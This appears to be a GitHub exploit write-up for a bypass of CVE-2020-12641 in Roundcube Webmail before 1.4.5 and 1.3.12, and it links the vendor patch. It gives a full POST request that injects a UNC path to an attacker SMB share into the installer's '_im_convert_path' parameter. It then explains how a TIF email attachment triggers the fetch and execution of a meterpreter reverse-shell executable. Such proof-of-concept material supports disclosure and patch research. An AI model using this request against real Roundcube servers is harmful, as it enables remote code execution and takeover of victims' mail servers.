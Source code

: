 # Calling Remote Executables via SMB Paths Bypass for CVE-2020-12641 in Roundcube Webmail

This bypass affects Roundcube versions before 1.4.5, 1.3.12.

### Vendor Disclosure:

The vendor's disclosure and patch for the bypass can be found [here](https://roundcube.net/news/2020/06/02/security-updates-1.4.5-and-1.3.12).

### Calling Remote Executables via SMB Paths

This exploit is OS dependent, and only works for Windows Environments that allow SMB reverse connections.
<br/>
In this case we will use the Windows inbuilt SMB Client in order to serve the system malicious remote executables.
<br/>
The following steps will be performed:

#### Craft Injection Request

We craft and send a POST request to the Installer containing the malicious remote SMB executable in the "_im_convert_path" parameter:
```
POST /roundcube-1.4.4/installer/index.php HTTP/1.1
Host: 192.168.243.129:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 918

_step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&submit=UPDATE+CONFIG&_im_convert_path=\\192.168.243.128\mal\meter.exe
```

<strong>Note:</strong> In this case we call a malicious meterpreter executable from "\\192.168.243.128\mal\meter.exe", where:
- <strong>192.168.243.128</strong> == is the malicious SMB's IP
- <strong>mal</strong> == is the smb branch/share name
- <strong>meter.exe</strong> == is the malicious Windows executable containing a meterpreter reverse shell


#### Send Email Containing a "Non-standard" Image

We proceed to send to the victim, in this case "mal@localhost", an email containing an image of non-standard format (in this case a "TIF" format image), which Roundcube will try to convert to "JPG" format, thus triggering the above SMB connect-back and running arbitrary executables on the victim:
<img src="Open%20TIFF_Win.png"/>

#### Result

If the attack was performed correctly, when the victim opens the mail containing the "TIF" image, a reverse SMB connection will be made with the attacker, running the malicious EXE in memory on the victim and resulting in a reverse meterpreter shell:
<img src="Meterpreter.png"/>
